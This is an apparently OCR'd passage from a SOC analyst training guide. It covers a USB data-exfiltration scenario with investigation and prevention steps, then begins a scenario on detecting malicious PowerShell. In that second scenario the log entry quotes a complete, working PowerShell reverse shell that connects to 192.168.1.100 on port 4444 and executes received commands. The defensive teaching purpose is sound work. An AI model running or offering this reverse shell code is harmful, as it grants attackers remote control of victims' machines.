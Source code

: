 
2.	Potential Threats
•	Data Exfiltration: The USB device might have been used to copy sensitive
information from the organisation.
•	Policy Violation: USB usage could breach company policy if external devices are
not permitted.
3.	Correlation with Other Logs
•	Network Traffic: Examine for unusual outbound traffic during or after USB usage to
identify potential uploads.
•	User Behaviour: Review logs for iffah across systems for anomalies, such as
abnormal login times or access to unrelated data.
Step 3: Recommendations
1.	Immediate Actions
•	Block USB Ports: Disable USB ports on WS-4545 via Group Policy or endpoint
management tools.
•	Suspend Account: Temporarily suspend iffah to prevent further suspicious activity.
•	Quarantine Device: Confiscate the USB device for forensic analysis.
2.	Investigative Steps
•	Retrieve File Details: Verify whether ProjectPlan.xlsx or other files were copied.
•	Device Analysis: Examine the USB device for copied files, timestamps and other
artefacts.
•	Audit User Activity: Review iffah's activity across all systems for additional signs of
policy violations.
3.	Preventive Measures
•	Enforce DLP: Implement Data Loss Prevention tools to monitor and control USB
activity.
•	Policy Reinforcement: Ensure strict enforcement of USB usage policies through
employee training and technical restrictions.
 

•	Endpoint Monitoring: Deploy endpoint detection solutions that alert on
unauthorised USB connections and file transfer activities.
Step 4: Monitoring the Aftermath
•	Set Alerts: Configure SIEM rules for Event IDs 20001 and 20003 with correlations to
file access (Event ID 4663).
•	Review Network Logs: Look for outbound data transfers during or shortly after the
USB usage timeframe.
•	Incident Report: Document findings in a comprehensive report and share with the
incident response team for further action.
 

Scenario 17: Detection Of Suspicious Powershell Activity
A SIEM alert is triggered by Event ID 4104 (from PowerShell logs) indicating suspicious
activity on a workstation. The investigation suggests possible malicious script execution
attempting to establish unauthorised remote access.
Step 1: Log Details
Log Entry: PowerShell Script Execution (Event ID: 4104)
Log Name: Microsoft-Windows-PowerShell/Operational
Source: Microsoft-Windows-PowerShell
Event ID: 4104
Level: Warning
Description:
PowerShell script execution detected.
-	User: CONTOSO\izzmier
-	Hostname: WS-7890
-	Script Block Text:
$client = New-Object System.Net.Sockets.TCPClient('192.168.1.100', 4444);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;
$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
$sendback = (iex $data 2>&1 | Out-String );
$sendback2 = $sendback + 'PS> ';
$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
$stream.Write($sendbyte,0,$sendbyte.Length);
$stream.Flush();};